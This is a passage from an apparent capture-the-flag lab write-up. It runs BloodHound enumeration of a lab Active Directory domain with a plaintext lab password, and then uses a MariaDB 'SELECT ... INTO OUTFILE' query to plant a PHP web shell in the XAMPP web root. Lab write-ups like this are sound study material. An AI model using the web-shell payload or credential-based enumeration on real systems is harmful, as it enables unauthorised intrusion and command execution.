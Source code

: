     ➜  bloodhound dnschef --fakeip 10.10.193.214  
    ➜  bloodhound bloodhound-python -u rsmith -d lab.trusted.vl -p 'IHateEric2' -ns 127.0.0.1 --disable-pooling --zip -c all,loggedon --dns-timeout 50 -dc LABDC
    WARNING: Could not find a global catalog server, assuming the primary DC has this role
    If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
    INFO: Getting TGT for user
    INFO: Connecting to LDAP server: LABDC
    INFO: Found 1 domains
    INFO: Found 2 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: LABDC
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    INFO: Found 7 users
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    INFO: Found 47 groups
    INFO: Found 2 gpos
    INFO: Found 5 ous
    INFO: Found 19 containers
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    INFO: Found 1 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: labdc.lab.trusted.vl
    INFO: User with SID S-1-5-21-2241985869-2159962460-1278545866-1107 is logged in on labdc.lab.trusted.vl
    INFO: Done in 00M 17S
    INFO: Compressing output into 20250115170408_bloodhound.zip

i think there is another way to get reverse shell on mysql ;)

### unintended mysql

    MariaDB [(none)]> SELECT "<?php echo system($_GET['cmd']);?>" INTO OUTFILE 'C:/xampp/htdocs/dev/shell.php';
    Query OK, 1 row affected (0.085 sec)

![alt text](<../assets/images/2 (4).png>)
